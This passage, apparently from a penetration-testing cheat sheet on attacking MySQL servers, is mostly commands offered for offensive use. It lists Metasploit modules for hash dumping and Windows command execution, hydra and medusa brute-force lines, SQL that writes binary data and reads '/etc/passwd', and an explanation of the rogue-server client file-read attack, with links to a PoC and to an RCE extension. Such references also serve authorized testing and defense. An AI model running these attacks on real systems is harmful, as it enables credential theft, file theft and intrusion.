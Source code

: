Some of the enumeration actions require valid credentials

```bash
msf> use auxiliary/scanner/mysql/mysql_version
msf> use auxiliary/scanner/mysql/mysql_authbypass_hashdump
msf> use auxiliary/scanner/mysql/mysql_hashdump #Need Credential
msf> use auxiliary/admin/mysql/mysql_enum #Need Credential
msf> use auxiliary/scanner/mysql/mysql_schemadump #Need Credential
msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Need Credential
```

## Brute Forcing

```bash
hydra -L usernames.txt -P pass.txt <IP> mysql
msf> use auxiliary/scanner/mysql/mysql_login; set VERBOSE false
medusa -h <IP/Host> -u <username> -P <password_list> <-f | to stop medusa on first success attempt> -t <threads> -M mysql
```

## Write any binary data

```sql
CONVERT(unhex("6f6e2e786d6c55540900037748b75c7249b75"), BINARY)
CONVERT(from_base64("aG9sYWFhCg=="), BINARY)
```

## MySQL arbitrary read file by client

Actually, when you try to load data local into a table the content of a file the MySQL or MariaDB server asks the client to read it and send the content. Then, if you can tamper a mysql client to connect to your own MyQSL server, you can read arbitrary files.

Please notice that this is the behaviour using:

```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
```

Notice the "local" word, because without the "local" you can get:

```sql
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

Initial PoC: [https://github.com/allyshka/Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)

In this paper you can see a complete description of the attack and even how to extend it to RCE: [https://paper.seebug.org/1113/](https://paper.seebug.org/1113/)

Here you can find an overview of the attack: [http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)

###Mysql User
